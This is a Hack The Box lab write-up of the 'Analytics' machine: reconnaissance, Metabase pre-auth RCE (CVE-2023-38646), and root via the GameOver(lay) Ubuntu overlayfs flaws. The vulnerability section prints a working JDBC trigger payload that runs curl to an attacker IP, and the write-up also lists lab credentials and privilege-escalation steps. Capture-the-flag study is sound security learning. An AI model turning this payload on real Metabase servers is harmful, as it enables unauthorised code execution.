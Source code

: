 ```yaml
---
title: Analytics Report
date: 2023-10-20 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Easy, Python Scripting, CVE-2023-38646, CVE-2023-2640, CVE-2023-32629,  GameOver(lay)]

img_path: /assets/img/htb/writeups/analytics
---
```


## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.233/32 (Linux)

**TCP Nmap scan:** 65,535 ports

* **Open ports**:
	* 22/ssh:
		* Banner grabbing
			- Version: OpenSSH_8.9p1 Ubuntu-3ubuntu0.4
				* [OpenSSH 9.5](https://www.openssh.com/txt/release-9.5)/[9.5p1](https://www.openssh.com/txt/release-9.5) (2023-10-04)
			- Codename: jammy [codename.py](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/testing_tools/codename.py)
			- CVEs Version: [NIST](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:8.9p1)
			- Valid creds: 
				- metalytics:An4lytics_ds20223#
	* 80/http:
		* Banner grabbing
			* Server: nginx/1.18.0 (Ubuntu)
		* Follow redirect: http://analytical.htb/
			* Services:
				* Storage
				* Analytics
				* Security
			* Technologies
				* Bootstrap
				* Frame
				* JQuery[3.0.0]
				* Javascript libraries (Design)
			* Headers
				* None
			* Cookies
				* None
			* Emails
				* demo@analytical.com
				* due@analytical.com
			* Users
				* Jonnhy Smith (Chief Data Officer)
				* Alex Kirigo (Data Engineer)
				* Daniel Walker (Data Analyst)
		* Directory Fuzzing
			* file: content/dir_fuzzing
		* Subdomains
			* http://data.analytical.htb
			* Services:
				* Login Page (Metabase)
					* No default creds
			* Technologies
				* Javascript frameworks
					* React, Emotion
				* Lodash 4.17.21
				* Postgres
			* Headers
				* HttpOnly[metabase.DEVICE]
				* UncommonHeaders[x-permitted-cross-domain-policies,x-content-type-options,content-security-policy]
				* X-Frame-Options[DENY]
				* X-XSS-Protection[1; mode=block]
			* Cookies
				* metabase.DEVICE=05c90a08-5e21-4014-9d9c-40436eee1202;HttpOnly;Path=/;Expires=Mon, 19 Oct 2043 21:00:43 GMT;SameSite=Lax
			* Emails
				* None
			* Users
				* None

* **Filtered ports**:	
	* None

## **Vulnerability Assesment**

* * *
* * *

* [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646) (Unauthenticated metabase RCE)
	* JDBC: Java API, which defines how a client may access a database
	* zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS \$\$//javascript\njava.lang.Runtime.getRuntime().exec('curl 10.10.15.12')\n\$\$--=x
		![](metabase_rce_poc.png)
		* References
			* https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
			* https://github.com/metabase/metabase
			* https://www.metabase.com/learn/administration/metabase-api

## **Exploitation**

* * *
* * *

* [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)
	![](metabase_poc.png)
* metabase enumeration
	* Enviroment variables
		* Credentials: metalytics:An4lytics_ds20223#
			![](creds_leak.png)

## **Post-exploitation**

* * *
* * *

* Metalytics enumeration
	* Kernel version Ubuntu, [CVE-2023-2640 and CVE-2023-32629, aka GameOver(lay)](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)
		* Afected version: Ubuntu 22.04 LTS (Jammy Jellyfish)
			1. unshare -rm sh -c "command": Execute command on privilege namespace to add SUID capabilities
			2. command:
				1. Create overlayfs with python binary (and some dependencies) in lowerdir
				2. Add cap_setuid+eip to python binary
				3. Run python command to set system uid to root and execute commands
				![](root.png)

## **Lateral movement**

* * *
* * *

## **Proof of concept**

* * *
* * *

* CVE-2023-38646 (python script poc): [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/CVE-2023-38646_Analytics)
	![](rce_poc.png)

